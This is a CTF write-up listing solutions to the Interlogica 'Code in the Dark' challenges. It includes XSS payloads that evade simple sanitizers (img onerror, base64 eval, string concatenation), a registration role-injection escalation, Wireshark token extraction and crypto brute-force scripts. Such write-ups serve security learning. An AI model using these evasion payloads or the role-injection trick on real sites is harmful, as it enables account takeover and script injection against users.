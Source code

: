 # CTF-CodeInTheDark
Interlogica CTF Code in the dark:
[https://ctf.codeinthedark.dev/challenges](https://ctf.codeinthedark.dev/challenges)

## 1 

Trigger an alert(1) in the small browser by evading the sanitizer's countermeasures. NOTE: the alert must be triggerable offline and without any further actions by the user.
The page has an input and renders the input after running a function on your code.
```
function sanitize(input) {
    // warmup
    return input;
}
```

Hints:  
Browser says `An iframe which has both allow-scripts and allow-same-origin for its sandbox attribute can escape its sandboxing.`.


Solution:
```
<iframe src="http%3A//hithere" 
        scrolling="no" sandbox="allow-scripts allow-popups allow-modals allow-same-origin" 
        name="sandbox" style="width: 100%; height: 100%; border: 0px;"></iframe>
<script>
   alert(1);
</script>
```

## 2

The page has an input and renders the input after running a function on your code.
```
function sanitize(input) {
    // no scripts!
    if (input.toLowerCase().includes('script')) {
        return 'NO!';
    }
    return input;
}
```

Solution:
```
<img src="" onerror=alert(1)>
```

Thanks M9k!

## 3
Just call the function from console.

## 4
Register. Password of moderator is in the user profile image. Get sources as moderator. Sources show that registratin take role too. Register as admin. As admin go to admin page and see flag.


## 5

The page has an input and renders the input after running a function on your code.
```
function sanitize(input) {
    // no alert!
    if (input.toLowerCase().includes('alert')) {
        return 'NO!';
    }
    return input;
}
```

Solution:
```
<iframe src="" 
        scrolling="no" sandbox="allow-scripts allow-popups allow-modals allow-same-origin" 
        name="sandbox" style="width: 100%; height: 100%; border: 0px;"></iframe>

<script>
console.log("hi");
eval(atob('YWxlcnQoMSk7'));
</script>
```

Where `YWxlcnQoMSk7` is `alert(1);`.  
  
Or you can use `eval("al"+"ert(1)")`, thanks pal!
## Forensics - Bad request-1
Open with Wireshark, tools -> credentials, click on the packet, look inside the http and Wireshark automatically will convert the auth bearer to plaintext:
![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/11a6c6a6-f99e-419e-a0f9-75564f469f5c)


## Crypto - Intercepted message (90 coins)
Resolver in Powershell, each character is shifted based on his position, with an overflow when needed
```
function Convert-String {
    param (
        [string]$inputString
    )
    
    $outputString = ""

    for ($i = 0; $i -lt $inputString.Length; $i++) {
        $char = $inputString[$i]
        $asciiValue = [int][char]$char
        $newAsciiValue = $asciiValue - $i
        if ($newAsciiValue -lt 33) {
            $newAsciiValue += 95;
        }
        $newChar = [char]$newAsciiValue
        $outputString += $newChar
        Write-Host "--------------"
        Write-Host $char
        Write-Host $asciiValue
        Write-Host $newAsciiValue
        Write-Host $newChar
    }
    return $outputString
}

# Input string
$inputString = 'NUTOKH"Jin}l~`o{qu&Y$([.},4++#<'

# Call the function and store the result
$result = Convert-String -inputString $inputString

# Output the result
Write-Host "Original string: $inputString"
Write-Host "Transformed string: $result"
```


## Crypto - Space (90 coins)
Bruteforced:
```
#!/usr/bin/env python3
import hashlib
import argparse

ct = "w2a\x7fq'I\tUOLV\\UOQR\\L\x07R\x1c\x12\x07\x04X\x14HRD\x12H"

def md5(msg:str)->str:
    return hashlib.md5(msg.encode()).hexdigest()

def xor(data:str,key:str):    
    return ''.join(chr(ord(a) ^ ord(b)) for a,b in zip(data, key))

def main():
    year = 2023
    month = 1
    day = 1
    while (True):
        key = f"{year:04}-{month:02}-{day:02}"
        hkey = md5(key)
        result = xor(ct, hkey)
        if (result.startswith('NTRLGC')):
            print(result)
        day += 1
        if (day > 31):
            day = 1
            month +=1
            if(month > 12):
                month = 1
                year -= 1

if __name__ == "__main__":
    main()
```

